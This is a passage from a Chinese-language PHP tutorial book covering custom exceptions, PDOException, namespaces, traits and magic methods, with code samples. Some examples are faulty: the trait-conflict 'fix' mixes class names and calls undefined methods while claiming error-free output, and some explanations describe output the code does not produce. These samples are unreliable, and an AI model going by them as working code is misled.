在这种情况下，由于出生年份 2040 相对于当前年份在将来，计算出的年龄将为负数。这将导致一个带有消息 "Error: Invalid birth year." 的异常。`catch` 块随后捕获此 `Exception` 类型的异常并显示错误消息 "Error: Invalid birth year"。

##### 自定义异常

在许多实际场景中，有必要使用特定的错误代码、上下文数据或更具描述性的消息等附加信息来丰富异常。这有助于调试和长期的代码维护。这通常需要创建自定义异常。这些自定义异常封装了特定的错误处理行为，使代码更加模块化且易于维护。这种方法还有助于改进错误处理和更清晰的代码组织，提高应用程序的可读性和可维护性。

创建一个名为 `fileRead.php` 的新文件，并在其中放入以下代码：

```php
<?php

// Define custom exception for file operations

class FileException extends Exception {

    // Constructor with default message

    public function __construct($message = "File error") {

        parent::__construct($message);

    }

    // Function to addition additional information

    public function fileInfo() {

        return "Problem with file path: " . $this->getFile()

            . "<br>"

            . "Error line: " . $this->getLine()

            . "<br>"

            . "Error code: " . $this->getCode();

    }

}

// File read function with custom exception handling

function fileRead($path) {

    if (!file_exists($path)) {

        throw new FileException("The file '$path' does not exist.");

    }

    // File read code...

    return "Contents of file '$path'";

}

// Using the function with exception handling

try {

    echo fileRead("example.txt");

} catch (FileException $e) {

    echo "Error: " . $e->getMessage() . "<br>";

    echo "Details: " . $e->fileInfo();

}

?>
```

此代码定义了一个名为 `FileException` 的自定义异常，用于处理与文件操作相关的错误。以下是代码的详细解释：


#### 定义 FileException 类

该类继承自 PHP 基础的 `Exception` 类，使其成为一个自定义异常。它包含一个 `fileInfo()` 方法，用于返回关于异常的附加信息，例如文件路径（`$this->getFile()`）、抛出异常的行号（`$this->getLine()`）以及关联的错误代码（`$this->getCode()`）。`getFile()`、`getLine()` 和 `getCode()` 方法均为 `Exception` 类的原生方法。

#### FileException 类构造函数

类构造函数接受一个可选的 `$message` 参数，该参数表示抛出 `FileException` 时要显示的错误消息。默认情况下，此消息被定义为 "File error"。随后，构造函数调用父类 `Exception` 的构造函数，并传递该错误消息。

#### readFile() 函数

该函数接收要读取的文件路径作为参数。它首先使用 `file_exists()` 函数检查文件是否存在。如果文件不存在，则抛出一个带有特定错误消息的 `FileException`，指明文件不存在。否则，它模拟读取文件操作，返回一条指示文件内容的消息。

#### 结合异常处理使用该函数

代码使用 `fileRead()` 函数读取名为 "example.txt" 的文件内容。该操作被包裹在一个 `try-catch` 代码块中，用于捕获可能出现的 `FileException`。如果抛出异常，将向用户显示错误消息，以及异常的 `fileInfo()` 方法提供的进一步详细信息。

总之，该代码演示了创建和使用自定义异常来处理特定于文件操作的错误，同时提供额外信息以便于调试和故障排查。

此时，如果你运行 `fileRead.php` 文件，将得到类似以下的结果：


然而，如果你在项目根目录下创建一个名为 `example.txt` 的文件并运行 `fileRead.php` 文件，将得到以下结果：


#### PHP 中的 PDOException

数据库操作错误在 Web 开发中是常见现象。PHP 提供了一个特定的异常类 `PDOException` 来处理此类情况。

`PDOException` 是一个 PHP 特有的异常类，当使用 PDO (PHP Data Objects) 扩展访问数据库时发生错误会触发该异常。

`PDOException` 在数据库错误处理中发挥着关键作用，使开发者能够高效地捕获、处理和管理 SQL 查询执行过程中发生的错误。

##### 使用 PDOException

**捕获 PDOException**：PDO 错误会自动转换为 `PDOException` 实例。要捕获 `PDOException`，可以在执行 SQL 查询的代码周围使用 `try-catch` 代码块。

**错误处理**：一旦捕获，`PDOException` 会提供关于错误的详细信息，例如错误消息、SQLSTATE 错误代码和数据库特定的错误代码。

**错误处置**：开发者可以利用 `PDOException` 提供的信息，做出适当的决策来处理错误，例如显示用户友好的错误消息或记录错误日志以供调试。

##### PDOException 示例

让我们开发一段连接数据库的简单代码：

```php
<?php

try {
    // 尝试连接。
    $db = new PDO('mysql:host=localhost;dbname=Users','root','');
    echo 'Connection successful!'; // 如果连接成功，将显示此消息
}
catch (PDOException $e) // 我们捕获 PDOExceptions。
{
    echo 'Connection failed.<br />';
    echo $e->getMessage(); // 显示错误编号和消息。
}
```

这段代码尝试使用 PDO (PHP Data Objects) 连接到 MySQL 数据库。以下是详细解释：

`try` 代码块中的第一行尝试创建 `PDO` 类的新实例以建立数据库连接。传递的参数包括：

*   `'mysql:host=localhost;dbname=Users'`：这指定了数据库类型 (MySQL)、主机以及要连接的数据库名称。
*   `'root'`：这是数据库用户名。

密码为空，但在生产环境中应设置为安全密码。

如果连接成功，屏幕上将显示 "Connection successful!" 消息。

如果在连接尝试期间引发 `PDOException`（例如由于配置或连接问题），将执行 `catch` 代码块。在该 `catch` 代码块中，将显示 "Connection failed" 消息，随后是通过在 `$e` 异常对象上调用 `getMessage()` 方法获取的具体错误消息。

简而言之，这段代码尝试连接到 MySQL 数据库，如果成功则显示成功消息。如果不成功，则捕获并在连接过程中出现问题时显示错误详情。

此时，执行此代码将产生类似以下结果的错误：


此错误消息表明尝试连接数据库已失败。以下是详细解释：

"Connection failed. 这是我们在 `catch` 代码块中定义的消息，用于指示连接尝试期间发生了错误。

"SQLSTATE[HY000] [1049] Unknown database 'Users'"：这是数据库返回的具体错误消息。它由三部分组成：

*   "SQLSTATE[HY000]": 这是一个标准的 SQL 状态代码，指示错误类型。在这种情况下，"[HY000]" 表示通用错误。
*   "[1049]": 这是一个识别错误类型的特定错误代码。在这种情况下，代码 1049 表示 "Unknown database"，指明连接中指定的数据库不存在或无法访问。
*   "Unknown database 'Users'": 这是错误的附加描述，指明名为 "Users" 的数据库未知或不可访问。

简而言之，此错误消息表明连接中指定的数据库存在问题，更具体地说，"Users" 数据库不存在或不可访问。

#### 总结

异常处理是编程中的一项基本实践，能够实现高效且优雅的错误处理。本章帮助我们理解了异常在软件设计中的重要性，重点介绍了可能发生的不同类型错误，并展示了处理它们的方法。

我们探讨了 PHP 中异常的语法和用法，重点介绍了使用 `try-catch` 代码块来捕获和处理异常。我们还研究了自定义异常的创建和使用，为处理特定于我们应用程序的错误提供了一种灵活且模块化的方式。

最后，我们讨论了异常在实际场景中的应用，例如使用 `PDOException` 进行数据库错误处理，并提供了具体示例来说明其用法。

通过掌握异常处理，开发者可以提高应用程序的健壮性、可靠性和质量，确保适当的错误处理，并简化代码调试和维护过程。

### 第 19 章：命名空间

当你在进行 Web 开发项目时，高效的文件和资源管理对于保持代码有序和避免冲突变得至关重要。想象一下你的电脑桌面，你无法在同一位置拥有两个同名文件。同样的原则适用于你的项目目录。如果你参与过大型项目，就会知道很难保证文件、类、属性或方法名称的唯一性，尤其是在团队协作时。

虽然在小型项目中，你可以通过清晰地掌握应用全貌来避免命名冲突，但在涉及数百或数千个文件和代码行的大型项目中，这很快就会成为一个挑战。代码模块化变得至关重要，它允许每个团队成员在项目的独立部分上工作，而无需担心相互干扰。


### PHP 中的命名空间

这就是命名空间发挥作用的地方。通过在 PHP 中使用命名空间，你可以逻辑地组织代码，避免名称冲突，并使应用程序更具可维护性和可扩展性。在本章中，我们将详细探讨 PHP 中命名空间的概念、实际用途以及它们在现代 Web 应用程序开发中提供的优势。

#### 问题

假设我们想为一所私立学校开发一个 Web 应用程序。例如，我们会有一个用于教学管理相关文件的“Students”目录，和一个用于行政管理相关文件的“Customers”目录。在每个目录中，我们计划创建一个“Person”类来代表与学校各项职能相关的个人。


在这种情况下，当我们在另一个 PHP 文件（如 `index.php`）中使用 `Person` 类时，这种用法极有可能会重复多次。在这种情况下，要区分实际使用的是哪个 `Person` 类可能会变得很困难。此外，如果我们需要在同一个文件中使用这两个 `Person` 类，则需要显式导入它们：

```php
<?php

require_once "Classes/Customers/Person.php";

require_once "Classes/Students/Person.php";

$person1 = new Person();

?>
```

执行此代码时，将产生类似以下结果的错误：


在此代码中，我们导入了两次 `Person.php` 文件，一次来自 `Classes/Customers` 目录，一次来自 `Classes/Students` 目录。接下来，我们尝试实例化一个 `Person` 类的对象。然而，这将产生歧义，因为我们有来自两个不同命名空间的两个 `Person` 类。因此，很难确定这两个类中的哪一个将用于实例化 `$person1` 对象。这种歧义可能导致错误或意外行为。

为了避免同名类之间的这些潜在冲突，PHP 提供了一个解决方案，允许我们将类组织在不同的命名空间中。如果你了解 Java 开发，这个概念类似于 Java 包。

命名空间允许我们为每组类分配一个唯一的命名空间，从而将它们隔离开来，避免应用程序不同部分的类之间发生名称冲突。通过使用命名空间，我们可以逻辑地组织代码，并避免使用同名类时的歧义。

#### 如何在实践中定义命名空间？

要在上面的示例中使用命名空间，你可以为 Customers 和 Students 目录中的每个 `Person` 类定义命名空间，然后将它们导入到 `index.php` 文件中。具体操作如下：

在 Customers 目录中的 `Person.php` 文件中：

```php
<?php

namespace Customers;

class Person {

    public function __construct($amount, $financialSituation) {
        $this->amount = $amount;
        $this->financialSituation = $financialSituation;
    }

    public function getCustomerInfo() {
        echo "Amount paid: $this->amount, financial situation: $this->financialSituation";
    }

}
?>
```

`namespace Customers;` 这一行声明 `Person` 类属于 `Customers` 命名空间。通过声明 `namespace Customers;`，该 PHP 文件中定义的所有类都属于 `Customers` 命名空间。因此，要在另一个文件中使用 `Person` 类，你需要使用 `use` 指令导入此命名空间。

在 Students 目录中的 `Person.php` 文件中：

```php
<?php

namespace Students;

class Person {

    public function __construct($name, $email) {
        $this->name = $name;
        $this->email = $email;
    }

    public function getStudentInfo() {
        echo "Name: $this->name, Email: $this->email";
    }

}
```

然后，在 `index.php` 文件中（或你想要使用 `Person` 类的任何其他文件中），使用其对应的命名空间导入 `Person` 类：

```php
<?php

require_once "Classes/Customers/Person.php";

require_once "Classes/Students/Person.php";

use Customers\Person as CustomerPerson;

use Students\Person as StudentPerson;

$studentPerson = new StudentPerson("Amine", "amine@gmail.com");

$customerPerson = new CustomerPerson(197, "Situation in order!");

$studentPerson->getStudentInfo();

echo "<br>";

$customerPerson->getCustomerInfo();

?>
```

这段代码首先使用 `require_once` 指令包含客户和学生 `Person` 类定义的 PHP 文件。然后使用 `use` 指令导入命名空间，并使用 `as` 关键字为客户和学生的 `Person` 类关联别名。

更具体地说，以下几行：

```php
use Customers\Person as CustomerPerson;

use Students\Person as StudentPerson;
```

这些行告诉 PHP 从 `Customer` 和 `Student` 命名空间导入 `Person` 类，并分别将它们重命名为 `CustomerPerson` 和 `StudentPerson`。

接下来，代码创建一个名为 "Alice"、邮箱为 "alice@gmail.com" 的 `CustomerPerson` 实例，然后创建一个名为 "Amine"、邮箱为 "amine@gmail.com" 的 `StudentPerson` 实例。最后，它在这些实例上调用 `getCustomerInfo()` 和 `getStudentInfo()` 方法以显示相应信息。

运行此代码时，你将获得类似以下的结果：


#### 结论

PHP 中的命名空间用于将类、接口、函数和常量组织并分层到不同的命名空间中，以避免代码元素之间的命名冲突。以下是命名空间过程的总结：

- **命名空间声明**：使用 `namespace` 关键字后跟命名空间名称来声明命名空间。例如：`namespace MyNamespace;`。
- **在命名空间内定义类**：声明命名空间后，PHP 文件中定义的所有类、接口、函数和常量将自动与该命名空间关联，除非它们显式声明在另一个命名空间中。
- **在文件中使用类**：要使用命名空间中定义的类，可以使用 `use` 导入命名空间，并在必要时为类使用别名。例如：`use MyNamespace\MyClass as AliasClass;`。

总之，命名空间允许代码的逻辑组织和命名冲突的预防，使 PHP 应用程序的开发和维护更加容易。

### 第 20 章：Traits

PHP Traits 代表了面向对象编程范式中的一项重大创新。面对多重继承的缺失，PHP 开发者长期以来一直在寻找优雅的解决方案，以在不损害代码结构的前提下将通用功能合并到他们的类中。Traits 作为对这一挑战的回应应运而生，提供了一个强大的多重继承替代方案。

在本章中，我们将深入探讨 PHP 中的 Traits、它们的工作原理、用处以及它们相比其他功能共享方法的优势。我们将发现 Traits 如何实现更强的模块化、更好的代码复用以及 PHP 项目中更清晰的类组织。

通过本章，你将深入理解 PHP Traits，并学会如何有效地使用它们来改进 PHP 应用程序的结构、灵活性和可维护性。

#### 问题

在 PHP 中，一个类不可能直接同时继承自其他多个类。与 C++、Python 或 Perl 等支持多重继承的编程语言不同，PHP 不支持。这意味着 PHP 不支持多重类继承。

然而，PHP 通过使用所谓的“Traits”提供了一种多重继承的替代方案。Traits 为将额外功能合并到类中提供了一种实用且灵活的解决方案，绕过了与多重继承相关的潜在问题。


### PHP Traits：无需继承即可实现代码复用

Traits 是 PHP 的一项特性，用于实现代码复用。它们允许将通用功能组合在一起，而无需求助于继承，从而促进了这些功能在多个类之间的灵活共享。

值得注意的是，PHP 中的 trait 机制不同于 C++、Python 或 Perl 等其他编程语言中的多重继承机制。

对比继承和 traits，我们可以看到，与继承不同（类会继承父类的所有属性和方法），traits 允许你在类中选择并引入特定所需的功能。因此，traits 提供了更高的模块化和更好的代码组织。

#### 定义和使用 Traits

PHP traits 提供了一种优雅的方式，无需使用多重继承即可在多个类中复用代码。Traits 是一组方法和属性的集合，可以被引入到类中。使用 `trait` 关键字定义，它们可以包含具体方法和抽象方法，以及属性。Traits 的主要优势在于它们能将通用功能集中在一处，从而简化代码维护并避免重复。

为了说明这一点，让我们以一个学校管理应用为例。在这种情况下，应用的不同部分（如学生区、教师区、家长区等）将需要相似的功能，例如登录、登出和查询方法。在每个需要的地方重复这些代码块将是繁琐且低效的。

这就是 traits 派上用场的地方。通过使用它们，我们可以将这些通用功能集中在一处，使其更易于维护并避免代码重复。因此，我们不必为应用的每个区域多次编写相同的代码，只需在必要的地方使用相应的 trait 即可。

现在我们了解了 traits 的重要性和用处，让我们看看如何在 PHP 应用中创建和使用它们。

##### 语法

要声明一个 trait，请使用 `trait` 关键字，后跟 trait 的名称及其花括号内的内容。要在类中使用 trait，请使用 `use` 关键字后跟 trait 名称。


假设你正在用面向对象 PHP 开发一个电子商务应用，你肯定需要创建 `User` 和 `Product` 类。最初，你想为应用中的各个类添加日志记录功能，即在应用执行期间记录重要信息或事件。然后，例如，你想添加验证功能，检查程序中提供的数据是否符合某些预定义的规则或条件。

首先，你为日志记录功能创建一个 trait。在本例中，我们将仅专注于日志记录功能。

**日志记录 Trait (Logging.php)：**

```php
<?php

trait Logging {

    public function logMessage($message) {

        echo "[" . date('Y-m-d H:i:s') . "] " . $message . "<br>";

    }

}
```

这段 PHP 代码定义了一个名为 "Logging" 的 trait，提供日志记录功能。以下是详细解释：

*   **`trait Logging { ... }`**：这声明了一个名为 "Logging" 的 trait。Traits 是可复用的代码块，可以被引入类中，为类提供额外功能。
*   **`public function logMessage($message) { ... }`**：这是 "Logging" trait 中定义的一个方法。`logMessage` 方法接受一个 `$message` 参数，即要记录的消息。该方法是公共的，意味着它可以在使用该 trait 的代码中的任何位置被调用。

然后，该 trait 可以在其他类中使用，以便轻松添加此日志记录功能。

**Users 类 (Users.php)：**

```php
<?php

require_once 'Logging.php';

class Users {

    use Logging;

    public function signUp($name) {

        // 用户注册日志
        $this->logMessage("User $name has registered.");

        // 其他注册操作
        echo "Registration of user $name completed.<br>";

    }

}
```

这段 PHP 代码首先使用 `require_once` 函数引入 "Logging.php" 文件。然后定义一个名为 "Users" 的类。以下是详细解释：

*   **`require_once 'Logging.php';`**：此行引入 "Logging.php" 文件，该文件包含 "Logging" trait 的定义。引入此文件允许 "Users" 类使用 "Logging" trait 来添加日志记录功能。
*   **`use Logging`**：此行在 "Users" 类中使用 "Logging" trait。这意味着 "Logging" trait 中定义的所有方法都将可供 "Users" 类的实例使用。
*   **`public function signUp($name) { ... }`**：此行定义了一个名为 `signUp` 的公共方法，专属于 "Users" 类。该方法接受一个 `$name` 参数，代表要注册的用户的名称。

**Product 类 (Product.php)：**

```php
<?php

require_once 'Logging.php';

class Product {

    use Logging;

    public function addProduct($name, $quantity) {

        // 记录产品添加日志
        $this->logMessage("Addition product $name ($quantity units).");

        // 其他产品添加操作
        echo "Product $name added with $quantity units.<br>";

    }

}
```

这段 PHP 代码首先使用 `require_once` 函数引入 "Logging.php" 文件，从而允许在 "Product" 类中使用 "Logging" trait。以下是核心代码的解释：

*   **`require_once 'Logging.php';`**：此行引入 "Logging.php" 文件，该文件包含 "Logging" trait 的定义。这允许 "Product" 类使用该 trait 中定义的功能。
*   **`use Logging;`**：此行在 "Product" 类中使用 "Logging" trait。这意味着 "Logging" trait 中定义的所有方法都将可供 "Product" 类的实例使用。
*   **`public function addProduct($name, $quantity) { ... }`**：此行定义了一个名为 `addProduct` 的公共方法，专属于 "Product" 类。

**主脚本 (index.php)：**

```php
<?php

require_once 'Users.php';

require_once 'Product.php';

// 使用具有日志记录功能的类
$user = new Users();
$user->signUp("Amine Barak");

$product = new Product();
$product->addProduct("Book", 10);

?>
```

这段代码演示了 "Users" 和 "Product" 类的实际用法，它们从 `Logging` trait 继承了日志记录功能。它创建对象来表示一个用户和一个产品，然后使用这些对象的方法执行特定操作并记录相应的日志。

当执行 `index.php` 文件时，将产生以下结果：


该结果显示一条消息，指示用户 "Amine Barak" 已注册，以及注册的日期和时间。这是因为调用了 "Users" 类的 `signUp` 方法，该方法使用日志记录功能来记录此事件。

随后，显示一条消息，指示产品 "Book" 已添加，数量为 10 个单位，以及添加的日期和时间。这是由于调用了 "Product" 类的 `addProduct` 方法，该方法同样利用日志记录功能来记录此事件。

总之，执行 `index.php` 文件将展示指示所执行操作（用户注册和产品添加）的消息，以及这些操作的详细信息，如执行的日期和时间，这得益于 "Users" 和 "Product" 类中实现的日志记录功能。

#### 方法和/或属性名称冲突


### PHP Traits：解决名称冲突与实际应用

#### Traits 中的名称冲突

由于 trait 旨在可复用，且可独立合并到不同的类中，因此两个不同的 trait 可能拥有同名的方法或属性。同样，trait 也可能与使用它的类拥有相同的名称。这些情况可能导致名称冲突，并在程序执行期间引发错误。

##### 示例

**Trait1.php**

```php
<?php

trait Trait1 {  

    public function displayMessage() {  

        echo "Message from Trait1 <br\>";  

    }  

}
```

**Trait2.php**

```php
<?php

trait Trait2 {  

    public function displayMessage() {  

        echo "Message from Trait2 <br\>";  

    }  

}
```

这两个代码片段分别定义了一个包含 `displayMessage()` 方法的 trait。现在让我们设想创建一个同时使用这两个 trait 的类：

**MyClass.php**

```php
<?php  

require_once 'Trait1.php';  
require_once 'Trait2.php';  

class MyClass {  

    use Trait1, Trait2;  

}  

$myObject1 = new MyClass();  
$myObject1->displayMessage();  
```

在这段 PHP 代码中，`Trait1.php` 和 `Trait2.php` 文件通过 `require_once` 函数引入，从而获取 `Trait1` 和 `Trait2` 这两个 trait 的定义。接着，定义了一个名为 `MyClass` 的类，它通过 `use` 指令同时使用了 `Trait1` 和 `Trait2` 这两个 trait。

随后，使用 `new` 关键字实例化了一个名为 `$myObject1` 的 `MyClass` 类对象。最后，在该对象上调用了 `displayMessage()` 方法。

然而，鉴于所用的两个 trait 都拥有同名的 `displayMessage()` 方法，这会导致歧义。在这种情况下，PHP 通常会生成一个致命错误，指示发生了名称冲突。按目前的代码状态，如果不正确解决两个 trait 之间的名称冲突，调用 `displayMessage()` 方法时就会报错。


##### 使用别名解决冲突

为了避免这种情况，必须在 `MyClass` 类中使用 trait 时，通过别名显式地解决名称冲突：

```php
<?php  

require_once 'Trait1.php';  
require_once 'Trait2.php';  

class MaClasse {  

    use Trait1, Trait2 {  

        Trait1::displayMessage insteadof Trait2;  
        Trait2::displayMessage as displayMessage2;  

    }  

}  

$myObject1 = new MyClass();  
$myObject1->showMessage();  

echo "<br\>";  
$myObject1->showMessage2();
```

在修正后的代码中，声明 `use` 时使用了别名来解决两个 trait 的 `displayMessage()` 方法之间的名称冲突。使用 `insteadof` 关键字显式指定优先使用 `Trait1` 的 `displayMessage()` 方法，而非 `Trait2` 的。

对于 `Trait2` 的 `displayMessage()` 方法，我们选择使用 `as` 关键字为其定义别名。因此，要调用该方法，必须使用别名中指定的名称，即本例中的 `displayMessage2()`。

这段代码确保了 trait 方法之间的命名空间冲突得到妥善解决，从而保证了无错误执行。来自 `Trait1` 的 `displayMessage()` 方法用于显示 Trait1 特有的消息，而来自 `Trait2` 的 `displayMessage2()` 方法（得益于引入 trait 时使用的别名）也用于显示 trait2 特有的消息。

执行此代码将产生以下结果：


该结果清晰地演示了 `Trait1` 和 `Trait2` 这两个 trait 的 `displayMessage()` 方法均已执行，且未遇到任何冲突错误。

#### 实际示例：订单追踪

假设您正在开发一个电子商务应用程序，并希望将订单追踪功能集成到您的产品类中。

让我们创建一个名为 `OrderTracking` 的 trait，为产品提供订单追踪功能。

**OrderTracking.php**

```php
<?php  

trait OrderTracking {  

    private $trackingCode;  

    public function setTrackingCode($trackingCode) {  

        $this->trackingCode = $trackingCode;  

    }  

    public function getTrackingCode() {  

        return $this->trackingCode;  

    }  

    public function trackOrder() {  

        // 执行订单追踪的代码  
        echo "Tracking number of the order: " . $this->trackingCode;  

    }  

}
```

以下是该代码的详细解释：

- `trait OrderTracking{ ... }`：此行声明了 `OrderTracking` trait，其中包含用于管理订单追踪的方法。
- `private $trackingCode;`：声明了一个名为 `$trackingCode` 的私有属性，用于存储订单追踪编号。
- `public function setTrackingCode($trackingCode) { ... }`：此方法通过将值赋给 `$trackingCode` 属性来设置订单追踪编号。
- `public function getTrackingCode() { ... }`：此方法通过返回 `$trackingCode` 属性的值来获取订单追踪编号。
- `public function trackOrder() { ... }`：此方法通过显示存储在 `$trackingCode` 属性中的订单追踪编号来追踪订单。
- `echo "Order tracking number: " . $this->trackingCode;`：使用 `$trackingCode` 属性的值显示订单追踪编号。

总之，`OrderTracking` trait 提供了用于定义、检索和追踪订单追踪编号的方法。它可以被合并到产品类中，为这些产品添加订单追踪功能。

现在让我们创建 `Product` 类：

```php
<?php

require_once 'OrderTracking.php';  

class Product {  

    use OrderTracking;  

    private $name;  
    private $price;  

    public function __construct($name, $price) {  

        $this->name = $name;  
        $this->price = $price;  

    }  

    // "Product" 类特有的其他方法  

}  

// 实例化 Product 类  

$product1 = new Product("T-shirt", 19.99);  
$product1->setTrackingCode("ABC123");  
$product1->trackOrder();
```

这段 PHP 代码引入了包含 `OrderTracking` trait 定义的 `OrderTracking.php` 文件。接着，它定义了一个使用该 `OrderTracking` trait 的 `Product` 类（通过 `use` 指令）。

`Product` 类还拥有私有属性 `$name` 和 `$price`，以及一个 `__construct()` 构造方法，该方法接收产品名称和价格作为参数并进行初始化。

随后，使用参数 "T-shirt" 和 `19.99` 创建了一个 `Product` 类的实例。通过 `OrderTracking` trait 的 `setTrackingCode()` 方法为此产品设置订单追踪编号。最后，调用 `OrderTracking` trait 的 `trackOrder()` 方法以显示该产品的订单追踪编号。

总之，这段代码展示了 `Product` 类如何利用 `OrderTracking` trait 为其实例添加订单追踪功能。

使用此特性可轻松将订单追踪功能集成到应用程序的不同类中，避免了在每次实现中冗余编写追踪代码。

执行此代码将产生以下结果：


这个实际示例突显了 trait 为类添加特定功能的实用性，从而在具体的电子商务场景中增强了代码的模块化和可复用性。

#### 结论

PHP trait 是一种强大的工具，可用于提高面向对象应用程序中代码的可复用性、模块化程度和可维护性。通过允许在多个类中包含通用功能，而无需多重继承，trait 为共享不在继承层级关系中的类之间的代码提供了一种灵活且优雅的替代方案。

借助 trait，开发者可以将相似的功能归置于一处，避免代码重复，并简化共享功能的管理。此外，trait 还能实现更清晰的代码组织，促进关注点分离，并便于理解程序结构。


### 第 21 章：魔术方法

简而言之，在 PHP 中审慎地使用 Trait 可以极大地有助于提高应用程序的质量、健壮性和灵活性，同时促进代码的开发和维护过程。

PHP 中的魔术方法提供了一种强大的方式，可以在类中显式定义的方法之外扩展对象的行为。它们使得某些与对象的交互能够被自动捕获和处理，为 PHP 应用程序的设计和管理提供了显著的灵活性。

在本章中，我们将详细探讨 PHP 中可用的魔术方法及其实际用法。我们将了解这些方法如何用于在各种上下文中自定义对象的行为，从而提高 PHP 代码的模块化、可重用性和可维护性。

魔术方法使开发者能够为实例化对象、访问未定义属性、调用不可访问方法、序列化对象等操作定义自定义行为。它们在管理与对象的交互方面提供了显著的灵活性，有利于开发健壮、灵活的 PHP 应用程序。

通过深入理解魔术方法，开发者将能够优雅且高效地扩展其 PHP 应用程序的功能，同时避免常见陷阱并遵循开发最佳实践。

#### 定义魔术方法

PHP 魔术方法是类中预定义的特殊方法，当发生与该类对象的特定交互时，PHP 引擎会自动调用它们。它们通常以两个下划线（`__`）开头，并提供特殊功能来控制对象在特定情况下的行为。魔术方法使开发者能够自定义对象行为，包括对象实例化、访问不可访问属性、调用不存在的方法、序列化和反序列化等操作。

#### 主要魔术方法

PHP 提供了许多所谓的魔术方法，在本节中，我们将介绍一些最常用的。

##### 1. `__construct()`

当对象被实例化时，`__construct()` 方法会被自动调用。它被称为“构造函数”。它用于在对象使用前初始化对象属性或执行其他必要的操作。

##### 2. `__get()`

`__get()` 方法用于拦截读取不可访问对象属性的尝试。它可用于实现此操作的自定义行为。

以下是如何使用 `__get()` 的示例：

```php
<?php

class Users {

    private $name = "John";

}

$user = new Users();

echo $user->name; // Error: property is private

?>
```

在这段代码中，定义了一个带有私有属性 `$name` 的 `User` 类。当我们在实例化类后尝试访问此属性时，会生成一个错误，因为该属性被声明为私有，因此无法从类外部访问。如果我们在 `User` 类中重新定义 `__get` 魔术方法，错误就会消失。

```php
<?php

class Users {

    private $name = "John";

    public function __get($propertyName) {

        if ($propertyName == 'name') {

            return $this->name;

        }

    }

}

$user = new Users();

// 使用魔术方法 __get() 访问私有属性

echo $user->name; // 显示 "John"

?>
```

在这段代码中，`__get()` 方法是一个 PHP 魔术方法，当尝试访问不可访问的对象属性时会被自动调用。

在本例中，`__get()` 方法为 `User` 类定义。当尝试访问类的不可访问属性时，将使用属性名称作为参数调用此方法。

在方法体中，我们检查作为参数传递的属性名称是否对应 `'name'`。如果是，则将对象私有属性 `$name` 的值返回给调用者。

此魔术方法提供了对私有属性的受控访问，仅在请求的属性名称与对象的私有属性名称匹配时才返回它。执行此代码将产生以下显示：


##### 3. `__set()`

现在假设我们想要从 "User" 类外部修改 "name" 属性的值。同样，此属性是私有的，因此如果我们尝试直接这样做，会得到一个错误。我们可以使用魔术 `__set()` 方法以受控方式允许修改此属性。示例如下：

```php
<?php

class Users {

    private $name;

    public function __set($propertyName, $value) {

        if ($propertyName == 'name') {

            $this->name = $value;

        }

    }

}

$user = new Users();

// 使用 __set() 魔术方法修改私有属性

$user->name = "Lina"; // "name" 属性现在被设置为 "Lina"。
```

在本例中，`User` 类定义了一个私有属性 `$name`。`__set()` 魔术方法用于拦截向不可访问对象属性赋值的尝试。

当我们尝试向 `$user` 对象的 "name" 属性赋值时，`__set()` 方法会被自动调用。它接收两个参数：要修改的属性名称和要赋给它的值。

在 `__set()` 方法体中，我们检查传递的属性名称是否对应 "name"。如果是，则将提供的值赋给对象的 `$name` 属性。

此魔术方法允许以受控方式修改 `User` 类的私有属性，通过拦截和处理向该属性赋值的尝试。

##### 4. `__call()` 和 `__callStatic()`

当我们尝试从对象调用不存在或不可访问的方法时，会调用魔术 `__call()` 方法。它接收两个参数：尝试调用的方法名称以及任何相关参数，后者随后被转换为数组。

至于魔术 `__callStatic()` 方法，当我们尝试在静态上下文中使用不存在或不可访问的方法时会触发它。此方法接受与 `__call()` 相同的参数。

**`__call()` 方法示例：**

```php
<?php

class Example {

    public function __call($lastNameMethod, $arguments) {

        echo "The method '$lastNameMethod' does not exist or is inaccessible.";

        echo "The arguments passed are: " . implode(', ', $arguments);

    }

}

$object1 = new Example();

$object1->methodNotExist("argument1", "argument2");
```

在本例中，我们有一个带有魔术 `__call()` 方法的 “Example” 类。当我们尝试在对象 `$object1` 上调用方法 `methodNotExist()` 时，该方法在类中不存在。因此，`__call()` 方法会被自动调用。它显示一条消息，指示该方法不存在，以及传递给该方法的参数。

执行此代码将产生以下显示：


此结果清楚地表明，魔术 `__call` 方法已取而代之地执行，因为后者（不存在的方法）不存在。

**`__callStatic()` 方法示例：**

```php
<?php

class Example {

    public static function __callStatic($lastNameMethod, $arguments) {

        echo "The static method '$lastNameMethod' does not exist or is inaccessible.";

        echo "The arguments passed are: " . implode(', ', $arguments);

    }

}

Example::staticMethodNotExist("argument1", "argument2");
```

在本例中，我们有一个带有 `__callStatic()` 魔术方法的 `Example` 类。当我们尝试在 “Example” 类上调用静态方法 `staticMethodNotExist()` 时，该方法在类中不存在。因此，`__callStatic()` 方法会被自动调用。它显示一条消息，指示该静态方法不存在，以及传递给该方法的参数。


##### 5. `__toString()`


`__toString()` 方法会在对象被用于期望字符串的上下文中时自动调用，例如当它被传递给 `echo` 函数时。它定义了对象的字符串表示形式。

```php
class Example {
    private $name;

    public function __construct($name) {
        $this->name = $name;
    }

    public function __toString() {
        return "This object is called " . $this->name;
    }
}

$object1 = new Example("NameObject1");
echo $object1; // 显示 : This object is called Example
```

在本例中，`Example` 类定义了一个魔术 `__toString()` 方法。当我们尝试使用 `echo` 或字符串连接来显示对象 `$object1` 时，`__toString()` 方法会被自动调用。该方法返回一个以有意义的方式表示对象的字符串。


##### `__destruct()`

`__destruct()` 方法会在对象销毁之前自动调用。它用于执行清理操作或释放与对象关联的资源。

```php
class Example {
    public function __destruct() {
        echo "The object has been destroyed.";
    }
}

$object1 = new Example();
unset($object1); // 显式销毁对象。显示: The object has been destroyed.
```

在本例中，`Example` 类定义了一个魔术 `__destruct()` 方法。当对象被销毁时，无论是使用 `unset()` 函数显式销毁，还是在脚本结束时隐式销毁，该方法都会被自动调用。在本例中，当我们使用 `unset($object1)` 销毁对象 `$object1` 时，`__destruct()` 方法被调用并显示一条指示对象已被销毁的消息。


#### 结论

PHP 的魔术方法为自定义对象和类的行为提供了强大的灵活性。它们能在与对象的各种交互过程中实现自动干预，使代码管理和扩展更加容易。

在本章中，我们探讨了一些最常用的魔术方法，例如 `__get()`、`__set()`、`__call()`、`__callStatic()`、`__toString()` 和 `__destruct()`。这些方法为管理属性访问、动态调用方法、将对象显示为字符串以及在对象销毁时执行操作提供了有用的功能。

值得注意的是，PHP 中还有其他魔术方法，例如 `__isset()`、`__unset()`、`__invoke()`、`__clone()` 等，它们提供了额外的功能以满足特定的开发需求。

